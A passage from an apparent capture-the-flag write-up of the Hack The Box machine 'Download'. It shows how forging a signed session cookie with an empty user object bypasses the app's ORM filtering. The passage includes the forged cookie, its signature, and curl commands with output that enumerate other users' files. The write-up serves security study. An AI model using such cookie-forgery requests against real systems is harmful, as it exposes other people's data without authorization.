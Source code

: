 So with this cookie:

```
{"flashes":{"info":[],"error":[],"success":[]},"user":{"id":16,"username":"0xdf0xdf"}}

```

It is querying for files associated with a user that has user id 16 and the username “0xdf0xdf”.

ORMs use models to give the programmer a more intuitive way to access objects in the database. In this case, the developer assumed that an attacker wouldn’t be able to modify the user in the cookie, and therefore, just trusts the cookie to query appropriately.

#### All Files / Users

What happens if I send in the cookie so that the user is empty:

```
{"flashes":{"info":[],"error":[],"success":[]},"user":{}}

```

My hope is that it will return all the files for all the user, as there’s no filter.

That base64 encodes to `eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6e319` which has a signature of `RdmrvnrBpzrS3slS77uG7Cuiv-Q`. When I add this to Firefox and reload `/home`, it works:

![image-20231107142010370](https://0xdf.gitlab.io/img/image-20231107142010370.png)

![expand](https://0xdf.gitlab.io/icons/expand.png)

There are tons of files from different users on the page.

To get a better feel, I’ll go into Burp, find this request, right click, and select “Copy as curl”, and then move to a terminal. I can remove a bunch of stuff (and make sure to remove the accept gzip so that the data comes back as ASCII) and end up with something like this to count:

```
oxdf@hacky$ curl -s -H 'Host: download.htb' -H 'Referer: http://download.htb/auth/login' -b 'download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6e319; download_session.sig=RdmrvnrBpzrS3slS77uG7Cuiv-Q' http://download.htb/home/
> | grep "Uploaded By:" | wc -l
27
oxdf@hacky$ curl -s -H 'Host: download.htb' -H 'Referer: http://download.htb/auth/login' -b 'download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6e319; download_session.sig=RdmrvnrBpzrS3slS77uG7Cuiv-Q' http://download.htb/home/
> | grep "Uploaded By:" | sort -u | wc -l
16
oxdf@hacky$ curl -s -H 'Host: download.htb' -H 'Referer: http://download.htb/auth/login' -b 'download_session=eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6e319; download_session.sig=RdmrvnrBpzrS3slS77uG7Cuiv-Q' http://download.htb/home/
> | grep "Uploaded By:" | sort -u
        <strong>Uploaded By: </strong>0xdf0xdf<br />
        <strong>Uploaded By: </strong>Anonymous<br />
        <strong>Uploaded By: </strong>Antilogism<br />
        <strong>Uploaded By: </strong>Apoplectic<br />
        <strong>Uploaded By: </strong>AyufmApogee<br />
        <strong>Uploaded By: </strong>Bold_pecAplomb<br />
        <strong>Uploaded By: </strong>Hindermate<br />
        <strong>Uploaded By: </strong>Jalouse<br />
        <strong>Uploaded By: </strong>Logorrhea<br />
        <strong>Uploaded By: </strong>Pestiferous<br />
        <strong>Uploaded By: </strong>Rooirhebok<br />
        <strong>Uploaded By: </strong>StrachanMilt<br />
        <strong>Uploaded By: </strong>Tabific<br />
        <strong>Uploaded By: </strong>Vivacious<br />
        <strong>Uploaded By: </strong>WESLEY<br />
        <strong>Uploaded By: </strong>ZitaShneee<br />
```